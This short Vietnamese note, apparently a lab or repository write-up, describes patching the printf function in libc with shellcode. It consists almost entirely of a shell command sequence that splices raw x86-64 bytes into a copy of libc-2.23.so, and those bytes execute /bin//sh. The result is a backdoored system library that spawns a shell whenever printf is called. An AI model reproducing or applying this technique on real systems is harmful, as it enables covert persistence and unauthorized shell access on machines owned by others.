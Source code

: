 Chèn shellcode vào vị trí của hàm printf trong libc

![alt text](image-1.png)


```sh
head -c 344224 /lib64/libc-2.23.so > libc.so.6
echo -ne '\x48\x31\xff\x48\x31\xf6\xe8\x65\x55\x0a\x00\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' >> libc.so.6
tail -c+344259 /lib64/libc-2.23.so >> libc.so.6
```


![alt text](image-2.png)